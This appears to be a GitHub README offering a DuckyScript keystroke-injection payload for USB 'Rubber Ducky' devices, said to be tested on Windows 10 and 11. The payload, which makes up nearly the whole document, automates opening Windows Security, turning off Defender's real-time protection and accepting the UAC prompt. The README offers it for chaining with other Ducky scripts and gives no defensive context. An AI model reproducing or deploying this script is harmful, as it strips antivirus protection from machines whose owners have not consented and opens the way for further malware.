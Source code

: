 # A Code That Will Disable Windows defender 

## This Code Is Tested On Windows 10 19043.1288 OS build & Windows 11 22000.282 OS build.

### Date : 04-11-2021

Note : Older PC's may require more delay.

This Code Can be Combined With Other Ducky Scripts.

```
REM Author : @krishnachaittanyah
REM This Script Will Disable Real Time Protection
REM *********************
REM We're going to disable Real Time Protection
REM *********************
DELAY 1000
GUI 
DELAY 500
STRING virus & threat protection
ENTER
DELAY 3000
TAB 
TAB
TAB
TAB
DELAY 200
ENTER
DELAY 200
SPACE 
DELAY 3000
ALT y  
```
